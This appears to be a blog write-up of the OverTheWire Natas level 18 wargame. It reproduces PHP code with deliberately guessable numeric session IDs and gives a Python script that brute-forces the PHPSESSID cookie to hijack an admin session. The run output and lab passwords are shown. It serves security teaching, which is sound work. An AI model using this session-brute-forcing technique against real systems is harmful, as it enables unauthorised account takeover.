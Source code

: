 +++
author = "Alex Domnit"
title = 'Natas-Level 18'
date = 2024-08-26T14:47:03+03:00
draft = false
description = "Writeup"
tags = [
    "CTF",
    "Completed",
]
categories = [
    "Overthewire",
    "Natas",
]

toc = false
+++

### Login
*Username: natas18*\
*Password: 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ*\
*URL:      http://natas18.natas.labs.overthewire.org*

### Doc
[What is brute-forcing?](https://en.wikipedia.org/wiki/Brute-force_attack)\
In cryptography, a brute-force attack consists of an attacker submitting many passwords or passphrases with the hope of eventually guessing correctly. The attacker systematically checks all possible passwords and passphrases until the correct one is found.\
[What is python?](https://en.wikipedia.org/wiki/Python_(programming_language))\
Python is a high-level, general-purpose programming language. Its design philosophy emphasizes code readability with the use of significant indentation. Python is dynamically typed and garbage-collected. It supports multiple programming paradigms, including structured, object-oriented and functional programming.\
[What is php?](https://en.wikipedia.org/wiki/PHP)\
PHP is a general-purpose scripting language geared towards web development. It was originally created by Danish-Canadian programmer Rasmus Lerdorf in 1993 and released in 1995. The PHP reference implementation is now produced by the PHP Group.

### Solution
Firstly, the index page of **natas18** displays a standard login prompt, asking you for a username and a password to login.

<img src="/img/natas/natas18-1.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
Let`s take a look under the hood:
{{< highlight html >}}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "<censored>" };</script></head>
<body>
<h1>natas18</h1>
<div id="content">
<?php

$maxid = 640; // 640 should be enough for everyone

function isValidAdminLogin() { /* {{{ */
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }

    return 0;
}
/* }}} */
function isValidID($id) { /* {{{ */
    return is_numeric($id);
}
/* }}} */
function createID($user) { /* {{{ */
    global $maxid;
    return rand(1, $maxid);
}
/* }}} */
function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function my_session_start() { /* {{{ */
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
/* }}} */

$showform = true;
if(my_session_start()) {
    print_credentials();
    $showform = false;
} else {
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
    session_id(createID($_REQUEST["username"]));
    session_start();
    $_SESSION["admin"] = isValidAdminLogin();
    debug("New session started");
    $showform = false;
    print_credentials();
    }
}

if($showform) {
?>

<p>
Please login with your admin account to retrieve credentials for natas19.
</p>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{{< /highlight >}}

#### Code explanaiton
The code selections that should interest us are:

```
$maxid = 640; // 640 should be enough for everyone

function isValidAdminLogin() { /* {{{ */
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }

    return 0;
}
```

And:

```
function my_session_start() { /* {{{ */
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
```

We are presented with an early variable definition of **maxid = 640**.\
Trying to log into admin will not get you anywhere since the request has to be made from a certain unknown id in order for the request to pass.

<img src="/img/natas/natas18-2.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">

#### What is there left to do?
Since we know the id range we should look into, a simple brute-force script that tries to login on every single seesion id should do the trick. Python will come to the rescue once again.\
<strong>Python script:</strong>

```
import requests

target = 'http://natas18.natas.labs.overthewire.org'
auth = ('natas18','6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ')
params = dict(username='admin', password='admin')
cookies = dict()
max_s_id = 640
s_id = 1
while s_id <= max_s_id:
	print ("ID = " + str(s_id))
	cookies = dict(PHPSESSID=str(s_id))
	r = requests.get(target, auth=auth, params=params, cookies=cookies)
	if "You are an admin" in r.text:
		print (r.text)
		break
	s_id += 1
```
This basically tries to send a packet for each id from 1 to the max declared id and when it get\`s the return that "You are an admin" breaks. Another possible approach would be to use burp suite to traverse all the possible id\`s in an attack and look through the responses for the admin breakpoint.
<strong>Code running:</strong>

```
03:11:53 archie@Archie py → python3 script.py
ID = 1
ID = 2
ID = 3
ID = 4
ID = 5
ID = 6
ID = 7
ID = 8
ID = 9
.
.
.
ID = 109
ID = 110
ID = 111
ID = 112
ID = 113
ID = 114
ID = 115
ID = 116
ID = 117
ID = 118
ID = 119
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ" };</script></head>
<body>
<h1>natas18</h1>
<div id="content">
You are an admin. The credentials for the next level are:<br><pre>Username: natas19
Password: tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

As you can see, **the correct session id was 119** and sending a packet with that id select as your cookie grants us access to **natas19**.11